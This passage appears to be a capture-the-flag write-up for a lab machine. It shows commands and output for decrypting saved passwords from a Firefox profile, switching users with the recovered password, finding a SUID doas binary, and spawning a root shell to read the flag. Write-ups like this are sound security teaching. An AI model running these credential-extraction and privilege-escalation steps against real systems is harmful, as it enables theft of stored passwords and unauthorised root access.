Then I used Firefox Decrypt to extract the password from the Firefox profile after decompressing it.
```bash
$ python firefox_decrypt.py .firefox/b5w4643p.default-release/
2021-05-18 11:04:55,237 - WARNING - profile.ini not found in .firefox/b5w4643p.default-release/
2021-05-18 11:04:55,237 - WARNING - Continuing and assuming '.firefox/b5w4643p.default-release/' is a profile location

Master Password for profile .firefox/b5w4643p.default-release/: 
2021-05-18 11:04:58,388 - WARNING - Attempting decryption with no Master Password

Website:   https://glitch.thm
Username: 'v0id'
Password: 'V0ID_PASSWORD'
```

I then used that password to change to the v0id user.

```bash
$ su v0id
Password: 

v0id@ubuntu:/home/user$ whoami
v0id
```

## Escalate to root

The v0id user cannot run sudo and has no crontab. I searched for files with suid permissions. 

```bash
v0id@ubuntu:~$ find / -perm /u=s 2>/dev/null
...
/usr/local/bin/doas


/usr/local/bin/doas
usage: doas [-nSs] [-a style] [-C config] [-u user] command [args]
```

That [`doas`](https://wiki.gentoo.org/wiki/Doas) command looks interesting. It looks like I can use it to run a command as another user. Similar to what sudo does.  I can run using v0id password. 

```bash
v0id@ubuntu:~$ /usr/local/bin/doas -uroot ls
Password: 
```

So I used it to launch `/bin/bash` as root. I could then print the root flag and finish the room.

```bash
v0id@ubuntu:~$ /usr/local/bin/doas -uroot /bin/bash -p
Password: 

root@ubuntu:/home/v0id# whoami
root

root@ubuntu:/home/v0id# cat /root/root.txt 
THM{ROOT_FLAG}
```

